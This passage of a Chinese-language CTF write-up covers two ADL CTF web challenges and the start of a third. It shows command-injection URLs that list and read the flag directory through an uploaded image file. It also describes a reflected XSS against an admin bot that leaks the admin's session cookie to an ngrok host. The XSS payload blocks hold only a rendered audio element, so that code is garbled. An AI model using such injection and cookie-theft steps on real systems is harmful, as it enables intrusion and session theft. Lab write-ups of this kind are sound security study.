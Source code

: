 ```
http://ctf.adl.tw:12003/?skill=upload/7mYgO8rG7j.jpg
view-source:http://ctf.adl.tw:12003/?skill=upload/7mYgO8rG7j.jpg&cmd=ls -al /F14G
view-source:http://ctf.adl.tw:12003/?skill=upload/7mYgO8rG7j.jpg&cmd=cat /F14G/flag_QAZwsxEDCrfvTGByhnUJMik
```

```
ADLCTF{D0n7_m4kE_y0UR_sRc_cOd3_aCcesS1b13}
```

## Report to admin

```
<audio src="" controlslist="nodownload" controls="" style="-webkit-user-select: none !important; width: 250px; height: var(--inline-controls-bar-height); min-width: 44px !important; min-height: var(--inline-controls-bar-height)  !important; --inline-controls-bar-height:  31px; box-sizing: border-box; margin-top: 0px; margin-bottom: 0px;"></audio>
```

根據 cheat sheet 找到沒有被過濾的就是 audio

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

構造 payload 並且傳到 ngork

```
<audio src="" controlslist="nodownload" controls="" style="-webkit-user-select: none !important; width: 250px; height: var(--inline-controls-bar-height); min-width: 44px !important; min-height: var(--inline-controls-bar-height)  !important; --inline-controls-bar-height:  31px; box-sizing: border-box; margin-top: 0px; margin-bottom: 0px;"></audio>
```

![Untitled%203.png](./img/Untitled%203.png)

```
/USERSESSID=ADLCTF%7B51mp1e_R3fl3c7!0n_X55_4774ck*-*0N_4dm1n%7D
```

```
ADLCTF{51mp1e_R3fl3c7!0n_X55_4774ck*-*0N_4dm1n}
```

## podkest

感覺像 盲 pwn ， potksed.doc 是 python 執行檔

其實不是盲 pwn ，他有給予原始檔案

https://ctf.adl.tw/podkest/src/server.c

![Untitled%204.png](./img/Untitled%204.png)
